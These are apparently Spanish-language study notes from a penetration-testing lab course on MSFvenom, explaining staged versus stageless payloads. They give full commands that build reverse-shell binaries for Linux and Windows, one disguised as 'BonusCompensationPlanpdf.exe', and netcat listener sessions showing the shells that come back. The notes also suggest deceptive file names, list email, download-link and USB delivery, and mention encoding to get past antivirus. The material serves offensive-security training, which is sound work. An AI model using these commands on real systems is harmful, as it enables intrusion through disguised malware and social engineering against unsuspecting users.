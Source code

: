 Además de proporcionar una carga útil con opciones de entrega flexibles, MSFvenom también nos permite `encrypt` & `encode`cargas útiles para eludir las firmas de detección antivirus comunes.

## Practicando con MSFvenom
En cualquier host con MSFvenom instalado, podemos emitir el comando `msfvenom -l payloads`para enumerar todas las cargas útiles disponibles.
```js
msfvenom -l payloads
```

## Staged vs. Stageless Payloads
Las Staged Payloads nos permiten enviar más componentes de nuestro ataque. Podemos pensar en ello como si estuviéramos "preparando el escenario" para algo aún más útil. Tomemos por ejemplo este payload linux/x86/shell/reverse_tcp. Cuando se ejecuta utilizando un módulo de exploit en Metasploit, esta carga útil enviará una pequeña etapa que se ejecutará en el objetivo y luego llamará de nuevo a la caja de ataque para descargar el resto de la carga útil a través de la red, a continuación, ejecuta el shellcode para establecer una shell inversa. Por supuesto, si usamos Metasploit para ejecutar este payload, necesitaremos configurar las opciones para que apunten a las IPs y puerto adecuados para que el listener atrape con éxito la shell. Ten en cuenta que una etapa también ocupa espacio en memoria, lo que deja menos espacio para el payload. Lo que ocurre en cada etapa puede variar dependiendo de la carga útil.

Los Stageless Payloads no tienen etapa. Tomemos por ejemplo este payload linux/zarch/meterpreter_reverse_tcp. Usando un módulo exploit en Metasploit, este payload será enviado en su totalidad a través de una conexión de red sin etapa. Esto podría beneficiarnos en entornos donde no tenemos acceso a mucho ancho de banda y la latencia puede interferir. Los payloads staged podrían llevar a sesiones de shell inestables en estos entornos, por lo que sería mejor seleccionar un payload stageless. Además de esto, los payloads stageless a veces pueden ser mejores para propósitos de evasión debido a que pasa menos tráfico por la red para ejecutar el payload, especialmente si lo entregamos empleando ingeniería social. Este concepto también está muy bien explicado por Rapid 7 en esta entrada de blog sobre las [cargas útiles stageless de Meterpreter.](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/)

Ahora que entendemos las diferencias entre una carga útil por etapas y sin etapas, podemos identificarlas dentro de Metasploit. La respuesta es simple. El `name`te dará tu primer marcador. Tome nuestros ejemplos de arriba:
- `linux/x86/shell/reverse_tcp`es una carga útil por etapas, y podemos saberlo por el nombre, ya que cada / en su nombre representa una etapa desde el shell en adelante. Entonces `/shell/` es un escenario para enviar, y `/reverse_tcp`es otro. Parecerá que todo está presionado para una carga útil sin etapas. 
- Tome nuestro ejemplo `linux/zarch/meterpreter_reverse_tcp`. Es similar a la carga útil por etapas excepto que especifica la arquitectura a la que afecta, luego tiene la carga útil del shell y las comunicaciones de red, todo dentro de la misma función. `/meterpreter_reverse_tcp`. 
- Para un último ejemplo rápido de esta convención de nomenclatura, considere estos dos 
- `windows/meterpreter/reverse_tcp` 
- `windows/meterpreter_reverse_tcp`. 
El primero es un `Staged`carga útil. Observe la convención de nomenclatura que separa las etapas. Este último es un `Stageless`carga útil ya que vemos la carga útil del shell y la comunicación de red en la misma parte del nombre. Si el nombre de la carga útil no le parece muy claro, a menudo se detallará en la descripción si la carga útil está en etapa o sin etapa.


## Construyendo una carga útil sin etapas
```js
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.13 LPORT=443 -f elf > createbackup.elf
```


**-p** : Crea el payload.
**linux/x64/shell_reverse_tcp** : Especifica un payload linux 64-bit stageless que inciara un reverse shell basado en TCP (Shell_reverse_tcp).
**LHOST=10.10.15.13 LPORT=443** : Direccion y puerto al cual conectarse. Cuando se ejecuta, la carga útil volverá a llamar a la dirección IP especificada ( `10.10.14.113`) en el puerto especificado ( `443`).
**-f elf** : El `-f` El indicador especifica el formato en el que estará el binario generado. En este caso, será un [archivo .elf](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format) .
**createbackup.elf** :  Crea el binario .elf y le da al archivo el nombre createbackup. Podemos nombrar este archivo como queramos. Idealmente, lo llamaríamos algo discreto y/o algo que alguien estaría tentado a descargar ejecutar.

## Ejecutar una carga útil sin etapas
Ahora necesitaríamos desarrollar una manera de llevar esa carga útil al sistema objetivo. Hay innumerables maneras de hacer esto. Estas son sólo algunas de las formas más comunes:
- Mensaje de correo electrónico con el archivo adjunto.
- Enlace de descarga en un sitio web.
- Combinado con un módulo de explotación Metasploit (esto probablemente requeriría que ya estemos en la red interna).
- A través de una unidad flash como parte de una prueba de penetración in situ.

#### Conexión NC (esperando a que se ejcute el paylaod en la maquina victima)
```js
sudo nc -lvnp 443
```

#### Conexión establecida
```js
p314d0@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```


## Creación de una carga útil sin etapas simple para un sistema Windows

```js
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

La sintaxis del comando se puede dividir de la misma manera que lo hicimos anteriormente. Las únicas diferencias, por supuesto, son la `platform` ( `Windows`) y formato ( `.exe`) de la carga útil.

## Ejecutar una carga útil simple y sin etapas en un sistema Windows
Esta es otra situación en la que debemos ser creativos para entregar esta carga útil a un sistema de destino. Sin ningún `encoding` o `encryption`, es casi seguro que Windows Defender AV detectará la carga útil en este formato.
Si el AV estuviera deshabilitado, todo lo que el usuario tendría que hacer es hacer doble clic en el archivo para ejecutarlo y tendríamos una sesión de shell.
```js
p314d0@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
Microsoft Windows [Version 10.0.18362.1256]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\htb-student\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is DD25-26EB

 Directory of C:\Users\htb-student\Downloads

09/23/2021  10:26 AM    <DIR>          .
09/23/2021  10:26 AM    <DIR>          ..
09/23/2021  10:26 AM            73,802 BonusCompensationPlanpdf.exe
               1 File(s)         73,802 bytes
               2 Dir(s)   9,997,516,800 bytes free
```

